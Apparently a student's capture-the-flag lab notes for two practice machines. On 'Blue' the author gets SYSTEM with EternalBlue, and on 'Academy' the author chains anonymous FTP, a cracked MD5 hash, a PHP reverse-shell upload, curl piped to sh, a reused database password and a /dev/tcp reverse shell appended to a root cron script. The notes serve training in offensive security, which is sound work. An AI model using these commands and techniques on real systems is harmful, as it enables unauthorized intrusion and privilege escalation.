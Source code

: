 Credentials
User:
Administrator
Password:
```password
Password456!
```

```python
export TARGET_IP=192.168.254.134
export TARGET_MAC=00:0c:29:b8:d1:4e
export TARGET_NETWORK=192.168.254.0/24
```

scanning
```python
sudo arp-scan -l  
```
192.168.254.134	00:0c:29:b8:d1:4e	VMware, Inc.

```python
sudo netdiscover -r $TARGET_NETWORK
```

nmap host disco
```python
sudo nmap -T4 $TARGET_IP
```
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown

Aggressive All ports
```python
sudo nmap -A -T4 -p 135,139,445,49152,49154,49155,49156 -v $TARGET_IP
```
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC

```python
use scanner/smb/smb_version
```
msf6 auxiliary(scanner/smb/smb_version) > run

\[*] 192.168.254.134:445   - SMB Detected (versions:1, 2) (preferred dialect:SMB 2.1) (signatures:optional) (uptime:15m 9s) (guid:{2619b463-5a66-40ed-a05d-d7986866ae33}) (authentication domain:WIN-845Q99OO4PP)Windows 7 Ultimate SP1 (build:7601) (name:WIN-845Q99OO4PP)
\[+] 192.168.254.134:445   -   Host is running SMB Detected (versions:1, 2) (preferred dialect:SMB 2.1) (signatures:optional) (uptime:15m 9s) (guid:{2619b463-5a66-40ed-a05d-d7986866ae33}) (authentication domain:WIN-845Q99OO4PP)Windows 7 Ultimate SP1 (build:7601) (name:WIN-845Q99OO4PP)
\[*] 192.168.254.134:      - Scanned 1 of 1 hosts (100% complete)
*] Auxiliary module execution completed

```python
git clone https://github.com/AnikateSawhney/Pwning_Blue_From_HTB_Without_Metasploit
```

followed read me

```python
nc -lvpn 4447
```

```python
python 42315.py 192.168.254.134
```

or.....


metasploit
```python
use windows/smb/ms17_010_eternalblue
```

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM


gg ez git gud noobz

**Also**
Try AutoBlue on Github

## Academy (Linux)

```python
export TARGET_IP=192.168.254.135
export TARGET_MAC=00:0c:29:5f:85:ed
export TARGET_NETWORK=192.168.254.0/24
```

scanning
```python
sudo arp-scan -l  
```
192.168.254.135	00:0c:29:5f:85:ed	VMware, Inc.

nmap host disco
```python
sudo nmap -T4 $TARGET_IP
```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:5F:85:ED (VMware)

```python
sudo nmap -A -T4 -p 21,22,80  -v $TARGET_IP
```
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.254.132
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 c7:44:58:86:90:fd:e4:de:5b:0d:bf:07:8d:05:5d:d7 (RSA)
|   256 78:ec:47:0f:0f:53:aa:a6:05:48:84:80:94:76:a6:23 (ECDSA)
|_  256 99:9c:39:11:dd:35:53:a0:29:11:20:c7:f8:bf:71:a4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works

```python
ftp 192.168.254.135  
```
anonymous login success
note.txt
in directory

```python
get note.txt
```
downloaded note.txt

```python
cat note.txt
```
Hello Heath !
Grimmie has setup the test website for the new academy.
I told him not to use the same password everywhere, he will change it ASAP.


I couldn't create a user via the admin panel, so instead I inserted directly into the database with the following command:

INSERT INTO `students` (`StudentRegno`, `studentPhoto`, `password`, `studentName`, `pincode`, `session`, `department`, `semester`, `cgpa`, `creationdate`, `updationDate`) VALUES
('10201321', '', 'cd73502828457d15655bbd7a63fb0bc8', 'Rum Ham', '777777', '', '', '', '7.60', '2021-05-29 14:36:56', '');

The StudentRegno number is what you use for login.


Le me know what you think of this open-source project, it's from 2020 so it should be secure... right ?
We can always adapt it to our needs.

-jdelta

found MD5 hash
put in crackstation.net
cd73502828457d15655bbd7a63fb0bc8   =   student


**Running GoBuster on it while i work**
```python
gobuster dir -u http://192.168.254.135 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```
/academy              (Status: 301) [Size: 320] [--> http://192.168.254.135/academy/]
/phpmyadmin           (Status: 301) [Size: 323] [--> http://192.168.254.135/phpmyadmin/]

```python
dirb http://192.168.254.135
```

```python
ffuf
```

its a php page and 192.168.254.135/academy is a login page
login at http://192.168.254.135/academy/
with
Login: 10201321
password: student
took me to password change page
changed password to
student1
student name is Rum Ham


student page has student picture upload section that accepts .php files
```python
nc -lvnp 3125
```

found php reverse shell @ https://pentestmonkey.net/tools/web-shells/php-reverse-shell
uploaded it and caught a shell as user:
www-data
in the / Directory

```python
cat /etc/passwd
```
cat /etc/passwd    
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:106:113:MySQL Server,,,:/nonexistent:/bin/false
ftp:x:107:114:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
grimmie:x:1000:1000:administrator,,,:/home/grimmie:/bin/bash





```python
# From public github
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
interesting file
/var/www/html/academy/includes/config.php

```python
also try pspy from walkthrough
```

```python
cat /var/www/html/academy/includes/config.php
```
$mysql_user = "grimmie";
$mysql_password = "My_V3ryS3cur3_P4ss";
looks like we found grimmie's password

ssh into grimmie with My_V3ryS3cur3_P4ss
```python
echo "bash -i >& /dev/tcp/192.168.254.132/3124 0>&1" >> /home/grimmie/backup.sh
```

start listener
```python
nc -lvnp 3124
```
root@academy:~# pwd
pwd
/root
root@academy:~# 
root@academy:~# whoami
whoami
root
root@academy:~# ls
ls
flag.txt
root@academy:~# cat flag.txt
cat flag.txt
Congratz you rooted this box !
Looks like this CMS isn't so secure...
I hope you enjoyed it.
If you had any issue please let us know in the course discord.
